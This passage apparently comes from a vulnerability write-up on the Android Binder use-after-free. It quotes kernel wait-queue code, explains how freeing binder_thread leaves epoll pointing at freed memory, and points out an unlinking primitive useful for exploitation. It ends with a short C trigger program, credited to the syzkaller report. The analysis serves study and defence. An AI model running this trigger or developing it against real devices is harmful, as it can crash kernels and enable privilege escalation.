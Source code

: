```c
struct __wait_queue_head {
        spinlock_t              lock;
        struct list_head        task_list;
};
typedef struct __wait_queue_head wait_queue_head_t;
```

The `BINDER_THREAD_EXIT` ioctl calls the `binder_thread_release` function which frees the `binder_thread` struct. However, if epoll is called on this thread, `binder_poll` tells epoll to use `wait`, the wait queue that is embedded in the `binder_thread` struct. Therefore, when the `binder_thread` struct is freed, epoll is pointing to the now freed wait queue. Normally, the wait queue used for polling on a file is guaranteed to be alive until the file’s release handler is called. Rare cases require the use of `POLLFREE`. In contrast, the Binder driver only worked if you constantly removed and re-added the epoll watch. This is the underlying bug and the use-after-free is a symptom of that.

When we look at the stack trace from [KASAN](https://www.kernel.org/doc/html/v4.14/dev-tools/kasan.html) in the [original report](https://groups.google.com/forum/#!msg/syzkaller-bugs/QyXdgUhAF50/g-FXVo1OAwAJ), we can see the use-after-free is in `remove_wait_queue` in `kernel/sched/wait.c`. The source code for the `remove_wait_queue` is below. In the `remove_wait_queue` function, `q` is the pointer to the freed `wait_queue_head_t` in the `binder_thread` struct and `wait` is an entry in the wait queue whose head has been freed. The use-after-free that triggered the KASAN crash is the call to `spin_lock_irqsave` with argument `&q->lock` when `q` is pointing to freed memory.

However, the `\__remove_wait_queue` call is more interesting for exploitation. As shown below, `\__remove_wait_queue` simply calls `list_del` on the `task_list` in the wait queue, giving us an unlinking primitive.

```c
void remove_wait_queue(wait_queue_head_t *q, wait_queue_t *wait)
{
        unsigned long flags;
        spin_lock_irqsave(&q->lock, flags);
        __remove_wait_queue(q, wait);
        spin_unlock_irqrestore(&q->lock, flags);
}
```

```c
__remove_wait_queue(wait_queue_head_t *head, wait_queue_t *old)
{
        list_del(&old->task_list);
}
```

The bug can be triggered with the following code, which was also in the original report from syzkaller.

```c
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define BINDER_THREAD_EXIT 0x40046208ul

int main()
{
        int fd, epfd;
        struct epoll_event event = { .events = EPOLLIN };
                
        fd = open("/dev/binder", O_RDONLY);
        epfd = epoll_create(1000);
        epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
        ioctl(fd, BINDER_THREAD_EXIT, NULL);
}
```
